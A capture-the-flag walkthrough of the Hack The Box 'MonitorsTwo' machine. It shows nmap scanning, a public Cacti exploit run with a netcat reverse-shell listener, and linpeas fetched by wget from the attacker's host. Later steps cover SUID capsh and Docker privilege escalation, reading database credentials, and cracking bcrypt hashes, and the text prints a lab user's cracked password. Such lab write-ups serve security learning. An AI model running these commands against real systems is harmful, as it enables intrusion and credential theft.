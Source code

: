 ### In this walkthrough, we will hack MonitorsTwo box from HTB
## Discovery
first of all we will test connection
```
ping 10.10.11.211
```
results:

![image](https://github.com/user-attachments/assets/d43f0f42-1f2f-428d-9881-04b5860d3f3e)

(ttl=63, around 63 tells us it is linux based machine, if ttl would be around 128 we would deal with windows based system)

Since we confirmed connection we can start enumerating with nmap command:
```
sudo nmap -sV -sC 10.10.11.211
```
flags:
- -sV - Service Version Detection
- -sC - Default Script Scan

results:

![image](https://github.com/user-attachments/assets/714e4d8a-f132-4baf-9f40-2edfad073b1e)

we can see that this box have two services open:
- ssh on port 22
- http on port 80

## Foothold

we dont have credentials to ssh for now and bruteforcing this is close to imposible, only one option is to see what is happening on http web server

![image](https://github.com/user-attachments/assets/2d8f33e6-e699-423f-a35d-89376f167405)

here i didnt even try deafult cacti credentials (wich work:admin, admin) just straight up started looking for CVE on internet and i found this github repo:
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git
```

![image](https://github.com/user-attachments/assets/32af2039-c63f-4cf2-8a34-553974527357)

i adjusted command to my case according to readme file and started netcat listener, commands:
```
nc -lvnp 443
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.5 --LPORT=443
```
And just like that we got container shell! (we can see it is container becouse of hostname of the container after www-data@ which is random string)
## User.txt
next i moved to /tmp, installed linpeas and ran it, commands:
```
cd /tmp
wget http://10.10.16.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://github.com/user-attachments/assets/3682e7fc-0a81-4151-975d-e84238df1a33)

We can see that 95% PE vector is highlighted in yellow-red, we look capsh up in gtfobins and found this SUID (Set User ID) command:
```
./capsh --gid=0 --uid=0 --
```

![image](https://github.com/user-attachments/assets/201f86fe-6758-43d9-9794-795878624f16)

So we go to /sbin and execute command:

![image](https://github.com/user-attachments/assets/8fb046bc-26f6-48c4-92fc-5e78d42f3ad6)

After that, I looked around the system to find anything unusual or something that stood out. I found a strange file called entrypoint.sh, so I opened it.

![image](https://github.com/user-attachments/assets/d206d119-755c-4b54-b8c2-f080f4f572b3)

Inside, we found a pretty interesting command along with credentials. We checked the command, and it worked—we got access to the MySQL database. I looked through the tables and found one containing usernames and password hashes, which seemed interesting.

![image](https://github.com/user-attachments/assets/51b5e0eb-6944-4504-89cb-86c7a5b44009)

I looked on the internet to find out what type of hash it is, and it turned out that we have got bcrypt hashes, which is a pretty strong hashing standard. Hopefully, at least one password will be weak.
Fun fact: Passwords hashed with this standard were compromised from the Internet Archive not long ago, from when I’m writing this post.

Here’s a little trick to find out the Hashcat mode faster, you just need to use --help flag and pipe it with grep "type":

![image](https://github.com/user-attachments/assets/e848bfe1-f98c-4efb-9186-19cc2935d592)

We use mode 3200, write the results to cracked.txt, and use the wordlist rockyou.txt (HTB uses passwords from this wordlist to prevent unnecessary long hours of cracking hashes).

![image](https://github.com/user-attachments/assets/dee357fe-f05e-409e-ac65-2bc2607babb8)

Hashcat was able to crack only one hash, it was marcus password:
```
ssh marcus@monitorstwo.htb
Password: funkymonkey
```
We ssh to marcus using his password, succesfuly obtaining user flag:

![image](https://github.com/user-attachments/assets/4ed7a52c-7887-4615-9e1d-87b89d62edca)

## Root.txt
This stage took me the most time on this box, although it was kind of obvious i ran:
```
id
uname -a
sudo -l
cat .bash_history
./linpeas.sh (looked through, this took some time)
ps aux | grep "root"
```
And finally, I remembered that there is a Docker container running, and we can gain root access on it, so I checked the Docker version:
```
docker --version
```

![image](https://github.com/user-attachments/assets/ba4cbb23-bd74-443c-8e6a-8a14c184623c)

Looked that version up on internet for any CVE and found this git hub page (you can check that for more insights on this exploit):
https://github.com/UncleJ4ck/CVE-2021-41091
So i followed up steps provided by readme file:

![image](https://github.com/user-attachments/assets/e32fb60c-13ba-449d-8539-f3916f2455d3)

We need to obtain access to the Docker container again, leverage privileges to root, and pass this command. Then, say 'yes' in our SSH session.
```
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/c23dfb03-3702-4d87-8e9b-f1a04a38a936)

I didn't get a shell right away, so I navigated to the provided path and executed the given command.
```
./bin/bash -p
```
And we got euid=0(root) which is equal to root priveleges!
## Conclusion
This box was really fun, it was simple but tinteresting i learned a bit about docker containers hope you also learned something, have good day and good luck on your next challenges!
